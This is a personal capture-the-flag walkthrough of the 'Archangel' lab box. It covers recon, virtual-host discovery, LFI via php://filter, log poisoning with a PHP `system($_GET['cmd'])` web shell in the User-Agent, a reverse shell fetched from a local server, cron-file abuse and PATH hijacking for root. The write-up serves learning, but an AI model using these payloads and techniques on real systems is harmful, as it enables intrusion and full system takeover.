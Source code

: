 ## Archangel

---

Tags: Linux, web exploitation, privilege escalation, lfi, log poisoning

Tools: nmap, dirb, php, cron, binary path, 

Process:

* As usual, begin with `nmap -A ` recon scan

* This shows ssh and a webserver

* Run a `dirb` scan on the webserver

    * There's a /flag/ dir but it's a rickroll

    * other dirb results don't yield much

* there is a support@mafialive.thm on the index page for the site

    * adding this domain to /etc/hosts and navigation to http://\<domain\> gives a flag

    * *This made me investigate to further my understand of domain name resolution because to me it doesn't make sense that the domain name and the ip lead to different places given that the domain is an alias for the ip. I pinged the ip and the domain and they basically say the same thing (the domain pings come back as the same ip.*

    * *After some research I learned that it's apparently somewhat common to host multiple sites on the same ip and differentiate between them with the "host" http header value. This makes sense. You're reaching the same web server but getting different responses based on this header value!*

    * *Also, just for reference and abundant clarity, the domain/ip still need to be added to the local resolution file (/etc/hosts) because the domain name doesn't mean anything without this. I already knew this but again this is for abundant clarity.*

* I started a `dirb` scan on the new domain

* There was a robots.txt on the domain hiding a test.php

* Clicking the button fills in a view parameter to a local file. This is where the lfi must come in.

* I couldn't grab /etc/passwd or anything like that...

* So I went for the php filter method and grabbed the test.php and mrrobbot.txt files themselves and decoded them

    * `http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

    * test.php had a flag

    * test also shows that the view param must not contain "../.." and must contain "/var/www/html/development_testing/"

    * Using `burpsuite`, I can inject malicious code into the user-agent field

    * Injecting `<?php system($_GET['cmd']); ?>` into the useragent in the request header and then accessing the log file with "http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//log/apache2/access.log&cmd=\<command to execute\>"

    * hosting a python server locally with a shell and inserting a command to download that shell to the machine.

    * set up listener `nc -lnvp <port>` executed shell with "http://mafialive.thm/shell.php" got user flag from home dir!

* uploaded linpeash to /tmp, `chmod +x` and ran it

* There was a file in /opt/ that was writable so I appended a reverse bash shell that gave me a shell as archangel

* Using `strings` on the "backup" file in the secrets dir, we can see there's a cp command being used so we can use execute our own code by prepending to the path variable

* In /tmp/ I `echo "/bin/bash -p" > cp`,chmod to make it executable, and then `export PATH=/tmp/:$PATH` and then ran the backup file. This gives root!

* Grab the flag and that's it!